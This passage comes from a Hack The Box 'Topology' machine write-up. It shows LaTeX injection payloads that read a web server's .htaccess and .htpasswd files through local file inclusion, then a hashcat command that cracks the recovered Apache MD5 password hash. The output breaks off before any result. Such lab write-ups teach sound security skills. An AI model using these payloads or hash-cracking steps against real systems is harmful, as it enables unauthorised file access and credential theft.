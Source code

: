 
#### Plan
Now that I have idenitified the local file inclusion vulnerability in the developers implementation of the Latex application, I will proceed to read the applications configuration. Of particular interest is the Apache2 configuration files for the 'dev' subdomain.  

**Apache2**  

*HTAccess*  
![Latex Injection .HTAccess](/blog/htb/machines/topology/img/apache_htaccess_1.jpg)  
Attempting to read the '.htaccess' the configuration file that is responsible for controlling authorised access in Apache2.  
Payload: ```$\lstinputlisting{/var/www/dev/.htaccess}$```  

![Latex Injection .HTAccess](/blog/htb/machines/topology/img/apache_htaccess_2.jpg)  
From the resulting image we can see that there is an '.htpasswd' file also present in the same directory, it should contain atleast a username and a hash.   
&nbsp;  

*HTPasswd*  
![Latex Injection .HTPasswd](/blog/htb/machines/topology/img/apache_htpasswd_1.jpg)  
Reading the '.htpasswd' using the LFI vulnerability.  
Payload: ```$\lstinputlisting{/var/www/dev/.htpasswd}$```  

![Latex Injection .HTPasswd](/blog/htb/machines/topology/img/apache_htpasswd_2.jpg)  
The resulting image contains a username and password hash, lets attempt to crack the hash.  
&nbsp;  

**Password Hash**  

```
┌──(matt㉿HackTheBoxKali)-[~/Topology]
└─$ echo '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > hash.txt 
                                                                                                                                                                                                                                             
┌──(matt㉿HackTheBoxKali)-[~/Topology]
└─$ cat hash.txt  
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

```
Using echo I will add the password hash to a file conveniently named 'hash.txt', I cat the contents of the file to the terminal just to verify the contents. The hash starts with '$apr1$' which indicates it is an MD5 hash. 
&nbsp;  

```
┌──(matt㉿HackTheBoxKali)-[~/Topology]
└─$ hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-6200U CPU @ 2.30GHz, 1428/2921 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
```

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB Topology Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 27/06/2023 - 12:11 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)